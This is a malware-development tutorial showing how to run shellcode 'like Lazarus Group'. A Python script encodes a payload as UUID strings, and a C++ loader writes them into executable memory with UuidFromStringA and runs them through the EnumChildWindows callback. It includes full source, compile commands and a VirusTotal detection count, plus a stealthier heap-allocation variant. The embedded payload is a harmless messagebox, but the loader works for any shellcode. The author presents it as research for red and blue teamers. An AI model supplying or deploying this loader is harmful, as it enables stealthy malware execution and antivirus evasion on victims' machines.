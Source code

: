 \newpage
\subsection{35. malware development tricks. run shellcode like a Lazarus Group. C++ example.}

﷽

![injection](./images/63/2022-07-22_09-57.png){width="80%"}    

This article is the result of my own research into another interesting trick: run payload via `UuidFromStringA` and for example `EnumChildWindows`.    

### UuidFromStringA

This function converts a string to UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```
Without using standard functions like `memcpy` or `WriteProcessMemory`, this function can be used to decode data as well as write it to memory.     

The shellcode execution technique is comprised of the subsequent steps:

- Allocate memory via `VirtualAlloc`    
- Use `UuidFromStringA` to convert UUID strings their binary format and store in memory    
- Use `EnumChildWindows` (or `EnumDesktopsA` or another candidate) to execute the payload previously loaded into memory      

### practical example

Let's go to look at a practical example. The trick is pretty simple, similar to [previous](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) tricks, but with some changes specific for Lazarus Group.     

First of all, we need script to convert our desired payload to UUID valid strings. Something like this (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # read in 16 bytes from our input payload
    chunk = f.read(16)
    while chunk:
        # if the chunk is less than 16 bytes then we pad the difference (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

As usually, I will use my `meow-meow` messagebox payload: `meow.bin`.

Run:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](./images/63/2022-07-22_10-46.png){width="80%"}    

Since we already have our payload in UUID format, we are able to construct our proof-of-concept code to test the following:     

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Pay attention to the function `UuidFromStringA`. As I wrote earlier, invoking this API with a memory pointer instead of a UUID pointer will result in the binary representation of the given UUID being stored in memory.     

By chaining many API requests and giving properly designed UUIDs, it is possible to load the necessary content (payload) into the chosen memory region.   

And then, as a pointer to the callback function in `EnumChildWindows` we specify this memory region:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

or another function `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### demo

Let's go to see everything in action. Compile our "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_10-56.png){width="80%"}    

and run in our victim's machine:    

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_10-58.png){width="80%"}    

To make sure that our payload was really launched, you can slightly change a piece of code:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Then compile again:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_11-07.png){width="80%"}    

and run again:   

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_11-09.png){width="80%"}    

As you can see, everything is work perfectly :)    

Let's go to upload `hack.exe` to VirusTotal:    

![injection](./images/63/2022-07-22_14-59.png){width="80%"}    

**So, 6 of 68 AV engines detect our file as malicious.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

There is a caveat. Lazarus Group uses functions `HeapCreate` and `HeapAlloc` instead:    

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` is a frequently used API call for allocating heap memory.    
This API, as far as I can tell, allows you to allocate specified amounts of memory on the heap, as opposed to the memory blocks obtained using the `VirtualAlloc` API.
However, according to the documentation, `HeapAlloc` can still call `VirtualAlloc` if necessary.    

It also has the advantage that this API is not so suspicious.    

Also Lazarus Group uses function `EnumSystemLocalesA` for execute payload.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
